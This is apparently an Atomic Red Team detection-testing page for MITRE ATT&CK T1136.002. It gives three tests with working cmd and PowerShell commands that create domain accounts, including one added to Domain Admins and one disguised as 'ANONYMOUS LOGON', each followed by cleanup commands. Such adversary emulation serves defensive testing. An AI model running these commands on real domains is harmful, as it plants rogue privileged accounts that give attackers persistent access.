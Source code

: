 # T1136.002 - Domain Account
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1136/002)
<blockquote>Adversaries may create a domain account to maintain access to victim systems. Domain accounts are those managed by Active Directory Domain Services where access and permissions are configured across systems and services that are part of that domain. Domain accounts can cover user, administrator, and service accounts. With a sufficient level of access, the <code>net user /add /domain</code> command can be used to create a domain account.

Such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new Windows domain admin user](#atomic-test-1---create-a-new-windows-domain-admin-user)

- [Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON](#atomic-test-2---create-a-new-account-similar-to-anonymous-logon)

- [Atomic Test #3 - Create a new Domain Account using PowerShell](#atomic-test-3---create-a-new-domain-account-using-powershell)


<br/>

## Atomic Test #1 - Create a new Windows domain admin user

auto_generated_guid: fcec2963-9951-4173-9bfa-98d8b7834e62

Creates a new domain admin user in a command prompt.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136.002_Admin|
| password | Password of the user to create | String | T1136_pass123!|
| group | Domain administrator group to which add the user to | String | Domain Admins|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
net group "#{group}" "#{username}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON

auto_generated_guid: dc7726d2-8ccb-4cc6-af22-0d5afb53a548

Create a new account similar to ANONYMOUS LOGON in a command prompt.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Username of the user to create | String | ANONYMOUS  LOGON|
| password | Password of the user to create | String | T1136_pass123!|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #3 - Create a new Domain Account using PowerShell

auto_generated_guid: 5a3497a4-1568-4663-b12a-d4a5ed70c7d7

Creates a new Domain User using the credentials of the Current User
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Name of the Account to be created | String | T1136.002_Admin|
| password | Password of the Account to be created | String | T1136_pass123!|


#### Attack Commands: Run with `powershell`! 


```powershell
$SamAccountName = '#{username}'
$AccountPassword = ConvertTo-SecureString '#{password}' -AsPlainText -Force
Add-Type -AssemblyName System.DirectoryServices.AccountManagement
$Context = New-Object -TypeName System.DirectoryServices.AccountManagement.PrincipalContext -ArgumentList ([System.DirectoryServices.AccountManagement.ContextType]::Domain)
$User = New-Object -TypeName System.DirectoryServices.AccountManagement.UserPrincipal -ArgumentList ($Context)
$User.SamAccountName = $SamAccountName
$TempCred = New-Object System.Management.Automation.PSCredential('a', $AccountPassword)
$User.SetPassword($TempCred.GetNetworkCredential().Password)
$User.Enabled = $True
$User.PasswordNotRequired = $False
$User.DisplayName = $SamAccountName
$User.Save()
$User
```

#### Cleanup Commands:
```powershell
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
